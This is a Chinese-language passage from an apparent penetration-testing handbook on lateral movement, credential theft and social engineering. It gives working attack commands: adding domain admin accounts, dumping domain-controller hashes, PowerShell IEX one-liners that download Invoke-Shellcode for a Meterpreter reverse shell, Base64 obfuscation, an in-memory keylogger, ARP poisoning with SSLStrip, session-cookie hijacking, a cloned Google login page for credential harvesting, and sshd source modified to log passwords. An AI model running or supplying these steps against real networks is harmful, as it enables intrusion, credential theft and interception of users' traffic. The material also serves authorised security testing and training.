*   `net group "Domain Admins" /domain` (列出所有域管理员)
*   `qwinsta` (列出用户会话信息)
*   在所有主机创建额外管理员账号：
    *   `net user username password /ADD /DOMAIN`
    *   `net group "Domain Admins" username /ADD /DOMAIN`
    *   `net localgroup Administrators username /ADD`

Royce Davis 修改了原版 `psexec` 代码，使其不上传二进制文件即可实现内存中的命令行远程代码执行，从而绕过 AV 检测，并支持对多系统进行线程化命令执行。示例如下：

*   `use auxiliary/admin/smb/psexec_command`
*   `set RHOSTS [IP or IP Range]`
*   `set SMBDomain [Domain Info]`
*   `set SMBPass [Password]`
*   `set SMBUser [User]`
*   `set COMMAND [command you want to run at the command line]`
*   `exploit`


回顾搭建环境阶段启用 Metasploit 日志记录的选项，这在大规模执行时非常有用。若对 `/24` 或更大网段执行代码，输出会非常庞大。启用日志记录并 `grep` 日志文件可大幅简化分析。^(13) 上例中在每台主机运行 `qwinsta` 并关联 IP 与用户名。若拥有 IT 管理员名单，可直接针对其主机发起攻击，而非渗透全网主机。


### 域控制器哈希导出

若幸运获得本地管理员或域管理员账号，下一目标通常是域控制器 (DC)。成功从 DC 导出所有哈希是渗透测试人员的高光时刻。

即使拥有管理员凭证，也无法直接读取 `c:\Windows\NTDS\ntds.dit` 中存储的哈希，因为 Active Directory 持续访问该文件导致其被读锁定。解决方案是利用 Windows 原生的卷影复制功能创建该文件副本。^(14)

## SMBExec (Kali Linux)

`SMBExec` ([`github.com/brav0hax/smbexec`](https://github.com/brav0hax/smbexec)) 由 `brav0hax` 开发^(15)，利用卷影复制功能获取 `SYS` 注册表配置单元和 `ntds.dit` 文件。以下是安装阶段部署的 SMBExec 模块用法：

*   **运行 SMBExec**
    *   `cd /opt/smbexec`
    *   `./smbexec`
*   选择 `3` (Obtain Hashes)
*   选择 `2` (Domain Controllers)
*   提供用户名/哈希/域/IP/NTDS 驱动器/NTDS 路径


SMBExec 使用有效凭证连接 DC，验证路径，尝试创建 `ntds.dit` 和 `sys` 文件的卷影复制。完成后解析文件，收集并存储 LDAP 中的所有密码哈希。

执行成功后，SMBExec 会在同级目录下创建基于时间戳的文件夹，内含 `[domain]-dc-hashes.lst` 文件。


示例受害 DC 中导出的 NTLM 哈希如下：

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8b9e471f83d355eda6bf63524b044870:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
admin_account:1000:aad3b435b51404eeaad3b435b51404ee:954bf28f34e47904f5c8725650f27283:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:876c4efd01dbf8da6cd04c60ddac0f95:::
bobsmith:1105:aad3b435b51404eeaad3b435b51404ee:8faf590241a5d5ed59fb80eb00440589:::
```


## PowerShell 横向移动与 PowerSploit 利用

### 哈希示例

```text
domainadmin: 1106: aad3b435b51404eeaad3b435b51404ee:8faf59024 1a5d5ed59fb80eb00440589:::
pmartian: 1107: aad3b435b51404eeaad3b435b51404ee:8faf590241a5d 5ed59fb80eb00440589:::
```

请注意，如果您正在查询大型域控制器，不妨先去喝杯咖啡，因为这将花费相当长的时间。收集到所有哈希后，您可以开始破解密码，或利用哈希传递持续攻击目标主机。


([`github.com/mattifestation/PowerSploit`](https://github.com/mattifestation/PowerSploit)) (Windows)

我之所以专门用几个章节介绍 PowerShell，是因为我认为攻击的未来将走向 PowerShell。我们行业中有许多优秀人才正在开发工具和技术，利用 PowerShell 和 WMI 来调用原生 Windows 工具。

我想演示一种我最喜欢的方式：在拥有凭据的前提下，利用 PowerShell 在组织内部横向移动。`PowerSploit` 是由 Matt Graeber 开发的 PowerShell 模块框架。您可以在他的 GitHub 页面了解更多：[`github.com/mattifestation/PowerSploit`](https://github.com/mattifestation/PowerSploit)。

您可能会问，为什么要用 PowerShell 进行后渗透？渗透测试人员积极使用 PowerShell，因为它使用原生 Windows 工具，所有操作均可在内存中运行从而绕过 AV 检测，可将 DLL 注入进程，并能利用受害者当前缓存的 Windows 凭据访问域。

从概念上描述我们将如何使用 PowerShell：假设我们拥有有效的本地管理员凭据，且已位于目标网络内部。我们将使用 PowerShell 强制用户下载并调用 PowerShell 脚本，目标是获得 Meterpreter 反向 Shell。

我们希望目标主机下载并执行的脚本名为 `Invoke-Shellcode`。它包含在客户端创建 Meterpreter 反向 HTTPS Shell 所需的所有代码。您可以在 `Invoke-Shellcode.ps1` ([`raw.github.com/mattifestation/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1`](https://raw.github.com/mattifestation/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1)) 中阅读有关该脚本及其完整功能的更多信息。以下是 `Invoke-Shellcode.ps1` 文件的一个小片段，描述了将 Shellcode 注入 PowerShell 以及反向 HTTPS Meterpreter 载荷。

```
C:\PS> Invoke-Shellcode

Description
--------------
Inject shellcode into the running instance of PowerShell.

C:\PS> Start-Process C:\Windows\SysWOW64\notepad.exe -WindowStyle Hidden
C:\PS> $Proc = Get-Process notepad
C:\PS> Invoke-Shellcode -ProcessId $Proc.Id -Payload windows/meterpreter/reverse_https -Lhost 192.168.30.129 -Lport 443 -Verbose
VERBOSE: Requesting meterpreter payload from https://192.168.30.129:443/INITM
VERBOSE: Injecting shellcode into PID: 4004
VERBOSE: Injecting into a Wow64 process.
VERBOSE: Using 32-bit shellcode.
VERBOSE: Shellcode memory reserved at 0x03BE0000
VERBOSE: Emitting 32-bit assembly call stub.
VERBOSE: Thread call stub memory reserved at 0x001B0000
VERBOSE: Shellcode injection complete!
```

让我们开始吧！首先，进入存放所有 PowerShell 脚本的文件夹。如前所述，我们试图让受害者生成反向 Meterpreter Shell，因此必须在攻击主机上启动反向处理器。感谢 `obsecure-sec`，他创建了一个名为 `StartListener.py` 的小型 Python 脚本，可为我们配置该监听器，更妙的是，我们在搭建环境阶段已下载该文件。我们可以在 Kali Linux 主机上使用以下命令启动监听器：

*   `cd /opt/PowerScript/`
*   `python ./StartListener.py [Host IP] 443`

查看 `StartListener.py` 脚本会发现，它不仅启动监听器，还包含 `AutoRunScripts`，可在受害者主机连回后智能迁移进程。成功运行监听器后，界面应如下图所示。


**图 76 - StartListener.py**

现在我们有了成功的处理器监听，接下来运行一些 PowerShell 脚本。在受害者主机上，我们需要将 `Invoke-Shellcode.ps1` 文件加载到内存，然后执行反向 Meterpreter 可执行程序。

#### 命令

由于 PowerShell 仅运行在 Windows 上，以下命令将使用我们的 Windows 攻击虚拟机。在最基本的示例中，以下 PowerShell 命令下载 `Invoke-Shellcode.ps1`，然后在运行脚本的主机上在内存中执行 Meterpreter 反向 HTTPS Shell：

```
IEX (New-Object Net.WebClient).DownloadString('https://raw.github.com/mattifestation/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.10.10 -Lport 443 -Force
```

让我们详细拆解一下这里发生了什么。此 `IEX` 命令指示 PowerShell 从 Web 下载 `Invoke-Shellcode.ps1`，执行该脚本，最后调用 Meterpreter 反向 Shell 功能，连回位于 `192.168.10.10` 端口 `443` 的攻击者主机。

我还喜欢对 PowerShell 命令进行 Base64 编码，以确保不会出现特殊字符问题并混淆踪迹。您可以在此处获取一个将任何 PowerShell 命令转换为 Base64 的 Python 脚本，它也在搭建环境阶段被下载：

[`raw.github.com/darkoperator/powershell_scripts/master/ps_encoder.py`](https://raw.github.com/darkoperator/powershell_scripts/master/ps_encoder.py)

让我们对命令进行 Base64 编码。`ps_encoder.py` 的输入为文本文件，因此让我们将 PowerShell 加载器回显到文本文件中：

*   `cd /opt/PowerSploit/`
*   `echo "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1'); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.10.10 -Lport 443 -Force" > raw.txt`

使用以下命令将文件编码为 Base64：

*   `./ps_encoder.py -s raw.txt`

输出应为 Base64 代码，请保存该输出。在我的示例中，部分输出如下：

```
SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUA-dAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAG-wAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAcwA6A-C8ALwByAGEAdwAuAGcAaQB0AGgAdQBiAC4
```

现在我们有了 Base64 编码的载荷，需要从 Windows 攻击主机远程在受害者系统上执行它。请回想搭建环境阶段我提到的：您需要同时准备好 Windows 攻击主机和 Linux 攻击主机，这就是主要原因之一。

要远程连接到另一台 Windows 系统，我们将使用 PowerShell 原生的 `Invoke-WmiMethod` 命令。执行方式如下：

*   `Invoke-WmiMethod -Class Win32_Process -Name create -ArgumentList "powershell.exe -enc [Base64 encoded string]" -ComputerName [victim IP] -Credential [Username]`

这会指示 PowerShell 连接到远程主机，并在特定端口上执行编码后的 Base64 字符串。在 Windows 攻击主机上执行此命令后，将出现用户名/密码身份验证提示框，输入远程主机的凭据或本地管理员账户。如果身份验证成功，您将看到如下图所示的消息。


**图 77 - 远程连接主机并执行载荷**


## PowerShell 后渗透与 ARP 投毒

### Meterpreter 会话建立

脚本在受害者主机上下载并执行后，我们应返回运行监听器的系统（即我们在 Kali Linux 主机上执行 `StartListner.py` 的地方）。现在我们应该能看到受害者主机连回我们的服务器，且 Meterpreter 会话已建立。


**图 78 - 反向 HTTPS 会话**

在运行 Meterpreter 处理器的攻击者主机上，我们会获得 stager 并打开会话。随后 `AutoRunScripts` 会迁移进程，以防止我们的会话被终止，现在我们在受害者主机上拥有了一个完整的 Meterpreter shell。^(1718)

如果你在受害者主机上观察整个过程，会注意到初始命令是通过 `powershell.exe` 执行的。主机随后将脚本下载到内存并从内存中执行 shell。这意味着没有文件被释放到受害者主机上，杀毒软件极不可能触发任何特征码匹配。更妙的是，如果主机系统提供任何类型的白名单保护，它们极有可能已批准 `powershell.exe`，因为它是默认的 Windows 功能。

### 加载 PowerSploit 模块

一旦进入主机，你可以轻松加载其他 PowerShell 脚本。请查看 [`github.com/mattifestation/PowerSploit/tree/master`](https://github.com/mattifestation/PowerSploit/tree/master) 以了解所有可用的其他模块。这些模块涵盖持久化工具、AV 绕过、数据窃取、侦察等。让我们再看一个来自 mattifestation GitHub 的示例。PowerSploit 自带一个键盘记录器，位于此处：[`raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Get-Keystrokes.ps1`](https://raw.github.com/mattifestation/PowerSploit/master/Exfiltration/Get-Keystrokes.ps1)。我们将在有权限访问的系统上加载并启用它。请记住，键盘记录器将完全在内存中运行，但会将输出写入受害者主机上的文件。

首先进入 PowerShell 并执行以下命令：

*   `powershell.exe`
*   `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Get-Keystrokes.ps1')`

这将把脚本下载并执行到内存中。然后要开启键盘记录功能，可以使用以下命令：

*   `Get-Keystrokes -LogPath C:\\key.log -CollectionInterval 1`

输出将位于 `C:\\key.log`。你也可以通过使用与 PowerShell Meterpreter 脚本相同的命令和步骤远程执行这些命令。

#### 其他有用的 PowerSploit 脚本

*   `Exfiltration/Out-Minidump.ps1` (转储进程内存)
*   `Exfiltration/Get-TimedScreenshot.ps1` (截取受害者计算机屏幕截图)

我非常欣赏这些人为让 PowerShell 对渗透测试人员更强大所做的努力。截至目前，我在使用 PowerShell 部署横向攻击时，未见任何杀毒软件或特征码触发报警。


### Nishang 框架

([`code.google.com/p/nishang/`](https://code.google.com/p/nishang/)) (Windows)

PowerShell 社区的另一位活跃成员是 Nikhil Mittal。你可以在 [`code.google.com/p/nishang/`](https://code.google.com/p/nishang/) 找到他的作品，撰写本文时当前版本为 3.0。

他的大多数 PowerShell 脚本专注于后渗透和信息收集。让我们看看他开发了哪些脚本。最容易上手的 PowerShell 脚本名为 `Get-Information.ps1`。让我们尝试使用以下命令原生运行该 PowerShell 脚本：

*   `PowerShell -file Get-Information.ps1`


**图 79 - Get-Information.ps1**

在上图中，我们看到执行因禁止运行不受信任脚本的策略而失败。我们之前讨论过，如果禁用了 PowerShell 执行，可以使用以下开关绕过策略：

*   `PowerShell -ExecutionPolicy bypass -file Get-Information.ps1`

这几乎能使针对 PowerShell 的任何保护失效。PowerShell 不仅默认存在于所有 Windows 7 及更高版本系统中，而且这些脚本极难被阻止。查看 `Get-Information` 脚本的细节，我们可以看到它将呈现什么输出。请看以下代码：


**图 80 - 收集信息列表**

该脚本将从 PowerShell 环境、Putty 信息、最近使用的命令、共享、环境变量、SNMP 信息、已安装应用程序、域信息、用户信息、系统信息和无线信息中提取数据。以下是成功执行 PowerShell 脚本的示例输出：


**图 81 - 系统信息**

后渗透阶段你会用到的大量信息都在此引用。除了这个综合脚本，另一个有用的示例是 `Get-WLAN-Keys.ps1`。运行 `.\\Get-WLAN-Keys.ps1`，我们最终会提取所有用户的 Wi-Fi 信息和存储的设置，其中包括 SSID 和密码。


**图 82 - 无线密钥**

从上面的示例中，我们可以看到 SSID 名称和存储在 `Key_Content` 中的密码。^(19) 如果他们使用静态密钥认证过程（非 WPA-Enterprise），我们现在可以连接到他们的无线网络，而无需破解任何哈希值。

如果你想了解 Nishang 工具的更多功能，请访问他的网站 [`www.labofapenetrationtester.com/2013/09/powerpreter-and-nishang-Part-2.html`](http://www.labofapenetrationtester.com/2013/09/powerpreter-and-nishang-Part-2.html)。正如我们所见，PowerShell 极其强大，随着更多研究人员投入 PowerShell 领域，我们将看到越来越多面向渗透测试人员的功能。


### ARP 投毒攻击

我遇到的需要 ARP 投毒的测试不多了，但有时仍会将投毒作为最后的手段。既然 ARP 投毒不是新攻击，我不会深入探讨 ARP 投毒为何有效或如何防范。我只会快速演示如何设置 ARP 类攻击，以及我如何在实战中最好地利用它们。


当谈到执行 ARP 欺骗/投毒攻击时，我通常依赖两个工具。我发现非常有用的两个工具是 `Cain and Abel` 和 `Ettercap`。

#### Cain and Abel (Windows)

**下载：** [`www.oxid.it/cain.html`](http://www.oxid.it/cain.html)

**操作系统：** Windows

如果你想了解 ARP 欺骗为何有效，可以在 [`www.irongeek.com/i.php?page=security/arpspoof`](http://www.irongeek.com/i.php?page=security/arpspoof) 阅读更多内容。让我们看看如何使用 `Cain and Abel` 对受害者进行 ARP 欺骗。要在 `Cain` 中成功进行 ARP 欺骗，点击左上角的嗅探器按钮，点击嗅探器选项卡，然后选择 `扫描 MAC 地址` 按钮。


**图 83 - Cain and Abel 扫描 MAC 地址**

接下来，在 `Cain` 底部切换到 APR 选项卡，在左侧列选择 APR，点击顶部工具栏的“加号”按钮（注意：+ 按钮可能不可见。尝试点击中间窗格以启用该按钮）。


**图 84 - APR 列表**

这应该会显示之前扫描的 IP，你需要选择要进行 ARP 欺骗的主机 IP 和网关 IP。


**图 85 - APR 投毒路由**

最后，你需要点击顶部菜单栏的 `APR 投毒` 开始/停止按钮，大功告成。


**图 86 - 成功投毒**


## 既然我们已经实现了完整的 MITM ARP 投毒

既然我们已经实现了完整的 MITM `ARP Poisoning`，我们就可以去寻找明文密码了。你可以通过转到屏幕底部的“密码”选项卡并选择 HTTP 或任何其他明文协议来实现这一点。


**图 87 - HTTP 明文**

利用完整的 ARP 欺骗可以发动许多不同的攻击。本章我将向你展示几个，但由你自己决定哪种最适合你的测试。

### Ettercap (Kali Linux)

**下载：** [`ettercap.github.io/ettercap/`](http://ettercap.github.io/ettercap/)

**操作系统：** Kali Linux

如果你倾向于使用 Linux 来实施 ARP 欺骗攻击，老派的方法是使用 `Ettercap`。基本的 ARP 欺骗命令是：

```
ettercap -TqM arp: remote/10.0.1.1//10.0.1.7/
```

这表示使用文本界面（`T`）在安静模式（`q`）下对 `10.0.1.7` 和网关 `10.0.1.1` 执行 ARP 欺骗，并实施 MITM（`M`）。这意味着来自 `10.0.1.7` 的所有流量将从你的电脑流向网关，你将看到该受害用户的所有流量。如果你想原生地查看流量，可以使用 `tcpdump` 或 `Wireshark` 进行嗅探。


**图 88 - Ettercap**

请注意，`ettercap` 有许多不同的插件，非常值得你花时间去了解它们的作用。一旦你处于 `ettercap` MITM 攻击中，你可以按字母“P”查看所有可以加载的不同模块。按下“P”，你应该会看到：

**可用插件示例：**

```
[0] arp_cop 1.1 报告可疑的 ARP 活动
[0] autoadd 1.2 自动添加目标范围内的新受害者
[0] chk_poison 1.1 检查投毒是否成功
[0] dns_spoof 1.1 发送伪造的 DNS 回复
[0] finger 1.6 指纹识别远程主机
[0] finger_submit 1.0 向 ettercap 网站提交指纹
[0] remote_browser 1.2 将访问的 URL 发送到浏览器
[0] search_promisc 1.2 在局域网中搜索混杂模式网卡
[0] smb_clear 1.0 尝试强制 SMB 明文认证
[0] smb_down 1.0 尝试强制 SMB 不使用 NTLM2 密钥认证
[0] smurf_attack 1.0 对指定主机运行 Smurf 攻击
[0] sslstrip 1.1 SSLStrip 插件
[0] stp_mangler 1.0 成为交换机生成树的根
```

我最喜欢的攻击是执行 `dns_spoof`。这意味着你控制受害者在互联网上的去向。例如，如果他们访问 Gmail，你可以将 DNS 请求重定向到你拥有的 Web 服务器并捕获凭据。

如果你想看到这种针对软件更新的攻击演示，请访问我的博客文章 [`www.securepla.net/dont-upgrade-your-software/where`](http://www.securepla.net/dont-upgrade-your-software/where)，我在那里讨论了如何将其与 `Evilgrade` 结合使用，以利用糟糕的更新实施流程。


### Evil Foca

**网址：** [`www.informatica64.com/evilfoca/default.aspx`](http://www.informatica64.com/evilfoca/default.aspx)

**操作系统：** Windows

Chema Alonso 开发了一款工具，用于对 IPv6 网络执行 ARP 欺骗攻击，因为 IPv6 网络使用邻居发现协议（`NDP`）而不是 ARP。攻击者需要做的是修改邻居请求（`NS`）和邻居通告（`NA`）并欺骗这些请求/响应。为了解决这些问题，他开发了工具 `Evil Foca`。欲了解更多信息，你可以查看他的演示文稿：[`www.slideshare.net/chemai64/defcon-21-fear-the-evil-foca-mitm-attacks-using-ipv6`](http://www.slideshare.net/chemai64/defcon-21-fear-the-evil-foca-mitm-attacks-using-ipv6)。

该工具能够执行不同的攻击，例如：

*   利用 ARP 欺骗和 DHCP ACK 注入在 IPv4 网络上进行 MITM。
*   利用邻居通告欺骗、SLAAC 攻击、伪造 DHCPv6 在 IPv6 网络上进行 MITM。
*   利用 ARP 欺骗在 IPv4 网络上进行 DoS（拒绝服务）。
*   利用 SLAAC 攻击在 IPv6 网络上进行 DoS（拒绝服务）。
*   DNS 劫持等。


**图 89 - Evil FOCA IPv6**


**图 90 - Evil FOCA SLAAC**


如果你成功地对受害者实施了 ARP 欺骗，你就几乎控制了受害者去向何处、看到什么、可能使用什么协议，并能看到任何以明文传输的密码。让我们看一些利用这些攻击的示例。


从宏观角度来看，会话劫持是嗅探流量、寻找会话令牌（Cookie）并使用这些令牌以用户身份进行认证的过程。请记住 HTTP 是一种无状态协议。这意味着它必须使用其他方法来跟踪你的会话，而无需在 Web 应用程序的每个页面都进行用户名/密码认证。在你首次认证后，将为整个会话生成一个会话令牌，现在该令牌本质上就是你的认证通行证。如果该会话 Cookie 被泄露，攻击者可以获取这些会话令牌，将其导入自己的浏览器并冒充你。如果你仍然不熟悉会话劫持，可以访问此链接获取更多信息：[`www.pcworld.com/article/209333/how_to_hijack_facebook_using_firesheep.html`](http://www.pcworld.com/article/209333/how_to_hijack_facebook_using_firesheep.html)。


### Hamster 和 Ferret

`Hamster` 是一款允许实施会话劫持攻击的工具。它充当代理服务器，将你的 Cookie 替换为从他人那里窃取的会话 Cookie，从而允许你劫持他们的会话。Cookie 通过 `Ferret` 程序进行嗅探。

#### 如何运行 Hamster/Ferret：

1.  **首先启用 IP 转发：**
    ```
    echo “1” >/proc/sys/net/ipv4/ip_forward
    ```

2.  **然后修改 IP 表以用于 SSL Strip：**
    ```
    iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 1000
    ```

3.  **接下来，配置并运行 SSL Strip：**
    ```
    sslstrip -f -a -k -l 1000 -w/root/out.txt &
    ```

4.  **接下来，启用 ARP 欺骗 - 记住这将对网络上的所有人进行 ARP 欺骗：**
    ```
    arpspoof -i eth0 [gateway]
    ```

5.  **接下来，启用 Ferret。在一个新的终端窗口中：**
    ```
    ferret -i eth0
    ```

6.  **最后启用 Hamster。在一个新的终端窗口中：**
    ```
    hamster
    ```

现在你只需要等待受害者访问网站、进行认证或已认证，并嗅探到他们的 Cookie。一旦你觉得已经获取了他们的 Cookie，请查看生成的 `hamster.txt` 文件。在下面的案例中，我们看到受害者的 Reddit Cookie 被窃取，这些会话令牌显示在下图的右侧部分。


**图 91 - Hamster 结果**

有了 Reddit 会话令牌，让我们看看如何利用它们以该用户身份获得访问权限。我可以复制 `reddit_session` 值信息，然后通过添加一个模仿我们窃取的 Cookie 的 Cookie 将其添加到我的浏览器中，然后刷新页面。

我们将使用 Firefox Web Developer 插件（我们在设置期间安装的）来分析和添加 Cookie。我们可以在 Cookie 菜单中下拉并点击 `Add Cookie`。正如你所见，在添加 Cookie 之前，我当前未以任何用户身份登录。添加 `reddit_session` Cookie 并添加适当的值，我点击确定。


**图 92 - 替换 Cookie**

刷新页面，看起来我们能够在完全不知密码的情况下访问该账户（下图）！请记住，我绝没有攻击 Reddit 的网站或服务器。我所做的只是嗅探明文流量，提取 Cookie，并将我的 Cookie 替换为在我拥有的网络上嗅探到的那些 Cookie。


**图 93 - 变身为受害用户**

## Firesheep


## Firesheep

我不会过多谈论 Firesheep，因为它是一个较旧的工具，且与上面的示例类似，但其概念至今仍然存在。您可以在此处阅读更多相关信息：[`codebutler.com/firesheep/`](http://codebutler.com/firesheep/)。Firesheep 是 Firefox 的一个附加组件，它嗅探无线或有线网络中以明文传输的会话令牌。在您的浏览器窗口中，它会呈现一个带框架的页面，您可以点击捕获到的用户并立即成为该用户。您无需手动添加任何自己的 Cookie，但它仅适用于有限数量的网站。

根本问题在于：当会话 Cookie 未设置 `Secure` 标志且协议非 HTTPS 时，Cookie 就有可能以明文形式传输。如何检查您的 Cookie 是否安全？我将首先登录到我自己的网站，然后查看我的 Cookie。我使用 Firefox 的 web-developer 附加组件来执行此操作。


图 94 - Cookie 信息与安全 Cookie

在上图中，用于维持用户状态的 `mw_session` 令牌在未开启 secure 标志的情况下传输。如果应用程序在任何时候通过 HTTP 引用该页面上的信息，或者攻击者能强制受害者通过 HTTP 访问 [www.securepla.net](http://www.securepla.net)，攻击者将获得完整的会话令牌，并能利用用户的访问权限。

## DNS 重定向

如果我在企业内部成功实施了 MITM（中间人攻击），一种通常行之有效的攻击是克隆内网页面（或任何需要认证的页面），然后利用它进行 DNS 重定向。这是一种获取用户名和密码的简便方法。让我们看一个快速示例：

我们已经知道如何从之前的示例中配置 `Cain and Abel` 以对网络中的系统实施 MITM。我们假设您已经让受害者的流量经过您路由。下一步是修改并欺骗通过 MITM 发生的 DNS 请求。

在顶部选项卡 Sniffer 下，底部选项卡 APR 中，点击 APR-DNS。在这里您可以右键单击并添加要修改的 DNS 请求。正如我之前所说，通常我会选择一个需要认证的内网页面，但在这种情况下，我将欺骗 Google 及其认证页面。


图 95 - Cain and Abel APR-DNS

第二件事是建立一个用于窃取凭证的伪造页面。为了克隆网站，我通常使用社会工程学工具包 (SET)。我在后面的社会工程学部分会讲解一个更详细的示例，但运行 SET 菜单后，依次进入 1 - Social Engineering Attacks（社会工程学攻击），2 - Website Attack Vectors（网站攻击向量），3 - Credential Harvester Attack Method（凭证收集攻击方法），2 - Site Cloner（网站克隆器）。

在这种情况下，我将克隆 [`accounts.google.com/`](http://accounts.google.com/) ServiceLogin，这是 Google、Gmail、G+ 等的通用登录页面。这配置在一个 IP 为 `192.168.0.85` 的 Kali 机器上。


图 96 - 克隆 Google 的认证页面

现在我们已经配置好 DNS 欺骗并建立了伪造页面，当 ARP 欺骗的受害者决定访问 [google.com](http://google.com) 时，他们将被重定向到我们克隆的 SET 网页。任何用户名和密码都将打印到我们的屏幕上，然后用户会被重定向到真正的 Google 页面，使其看起来像是用户输入了错误的密码。


图 97 - 被欺骗的 Google 认证页面与受害者的密码

## SSLStrip

SSL strip 是由 Moxie Marlinspike 开发的工具，它将用户从 HTTPS 页面重定向到 HTTP 站点，以便所有流量都能以明文形式被嗅探。我建议先观看 Moxie 在 Blackhat 的演讲（[`www.youtube.com/watch?v=MFol6IMbZ7Y`](http://www.youtube.com/watch?v=MFol6IMbZ7Y)）。该工具监控 HTTPS 流量，并将所有 HTTPS 通信从用户端重写为 HTTP（明文）。

### Kali 上的命令

```
echo “1” >/proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp —destination-port 80 -j REDIRECT —to-port 8080
sslstrip -l 8080
ettercap -TqM arp: remote/192.168.0.12//192.168.0.1/
```

在本例中，我们欺骗来自 `192.168.0.12` 的请求，网关位于 `192.168.0.1`。


图 98 - SSL Strip

当您的受害者 (`192.168.0.12`) 访问 [facebook.com](http://facebook.com) 时，它不会重定向到 Facebook 的 HTTPS 版本进行认证。在下面的示例中，用户访问 Facebook 并输入其用户名和密码。如果我们回到 `ettercap` 终端，将看到用户名和密码滚动显示。


图 99 - 受害者访问 [Facebook.com](http://Facebook.com) 并被重定向到 HTTP 及捕获的密码


假设您在网络上，但由于特定子网仅允许特定用户机器或 IP 访问，您无法到达这些子网。在这种情况下，您必须通过拥有适当 IP 或访问权限的用户进行代理。

在分段网络中，利用 Windows 默认功能在主机之间进行代理是一种廉价且简便的方法。`Netsh` 是一个用于修改网络配置的命令行工具。以下命令将使主机在端口 8080 上进入监听模式，并将所有请求重定向到 `192.168.5.33` 的端口 3389。这将是一种轻松代理 RDP 流量进入其他主机的方法。

```
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=192.168.0.5 connectport=3389 connectaddress=192.168.5.33
```

现在您可以获取已攻陷的主机之一，并将您的 RDP 请求代理到那个分段网络。


希望本章能让您熟悉从“在网络上”转变为“成为网络”。有大量的攻击手段可协助横向移动和权限提升，但关键在于理解测试范围内有什么，以及什么最有可能帮助您。可能需要横向移动部分中的几种攻击才能让您成为域管理员，但请保留本章，因为有时您会陷入僵局，而本书中的某些内容可能正好能帮您摆脱困境。


## 社会工程学

如果客户端攻击在您的测试范围内，社会工程学是您的“首选”攻击。执行社会工程学攻击有多种不同方式，范围可从域攻击到鱼叉式网络钓鱼，甚至投放 USB 闪存盘。由于社会工程学攻击很大程度上依赖您自身的创造力，我将只介绍几个我发现行之有效的示例。


我花费了大量研究时间研究同形异义域名，试图找到最高效、投入产出比最高的攻击。您可以在此处找到更多我的研究论文：[`www.wired.com/threatlevel/2011/09/doppelganger-domains/`](http://www.wired.com/threatlevel/2011/09/doppelganger-domains/)。

我研究论文的概念是暴力破解公司域名，寻找拥有 MX 记录的有效子域名。在接下来的几个示例中，我们有两家不同的虚构公司，它们利用子域名进行邮件通信：us.company.com 和 uk.company.com。我所做的是购买了 [uscompany.com](http://uscompany.com)、ukcompany.com 等所有域名。这是因为最终用户非常频繁地会犯一个错误：忘记在域名和子域名之间输入句点。


购买这些域名后，我搭建了一个 SMTP 服务器，配置了 MX 记录，最后将所有 SMTP 服务器设置为捕获所有邮件的服务器。这意味着无论发给我拥有的域名下的谁，我都会记录/转发所有这些邮件到我选择的账户。


这通常足以证明你可以成功捕获敏感数据，并且你将看到来自该公司的大量敏感邮件。如果你查看上文提到的文章，你将看到收集了什么类型的数据，以及我们有多少次能够获得进入公司的 SSH/VPN/远程访问权限。我们还将概念验证攻击向前推进了一步。

在下面的示例中，我们以虚假站点 `bank.com` 为目标，该站点在俄罗斯设有子公司。这家虚假银行拥有 `ru.bank.com` 并拥有指向该 FQDN 的 MX 记录。此外，`company.com`（另一家虚假公司）拥有 `us.company.com` 并拥有该 FQDN 的 MX 记录。在这个虚假示例中，我们购买了两个双胞胎域名 `uscompany.com` 和 `rucompany.com`。如果有人发送邮件时误输入了任一域名，我们就能将自己注入到对话中间。通过几个简单的 Python 脚本，当我们收到一封从 `john@us.company.com` 发往 `bob@rubank.com`（`ru.bank.com` 的误输入双胞胎域名）的邮件时，我们的脚本会获取该邮件并创建一封新邮件发送给 `bob@ru.bank.com`（正确的邮件地址），发件人显示为 `john@uscompany.com`（我们拥有的误输入双胞胎域名）。这意味着 Bob 给 John 的任何回复都会经过我们。现在我们已经配置了完整的“中间人邮箱”，可以被动监听，也可以基于他们之间的信任因素发起攻击。


**图 100 - 中间人邮箱示例**


在我的研究中，我还配置了带有双胞胎域名的 SSH 服务器，以查看人们是否会误输入 SSH 服务器地址并泄露其 SSH 密码。在成功实施攻击之前，我需要配置几件事。

首先，我必须设置 DNS A 记录，将所有记录指向特定的 IP。例如，我将 A 记录主机设置为“\*”，并将主机记录指向我的 IP 地址。双胞胎域名内的任何子域名都将指向我的服务器。这意味着以下域名将全部指向单个 IP：

`test.uscompany.com`

`dev.uscomany.com`

`deadbeef.uscompany.com`

现在，我需要设置一个记录用户名和密码的 SSH 服务器。为此，我配置了一台运行 Ubuntu 11.10 的服务器。由于普通的 sshd 不会记录密码，我必须修改一个版本的 sshd。我首先下载 openssh portable 5.9p1：

```
wget http://mirror.team-cymru.org/pub/OpenBSD/OpenSSH/portable/openssh-5.9p1.tar.gz
```

解压 OpenSSH：

*   `tar xvfz openssh-5.9p1.tar.gz`
*   进入 openssh 目录：
    `cd openssh-5.9`

在编译 sshd 之前，我需要修改 `auth-passwd.c` 文件。以下是我更改的内容，但我也包含了你应该替换到 sshd 中的完整 `auth-passwd.c` 文件：

```
if(!sys_auth_passwd(authctxt, password))
{
    FILE *garp;
    garp = fopen("/var/log/sshd_logged", "a");
    chmod("/var/log/sshd_logged", 0600);
    fprintf(garp,"%s:%s:%s\n",authctxt->user,password,get_remote_ipaddr());
    fclose(garp);
}
return (result && ok);
```

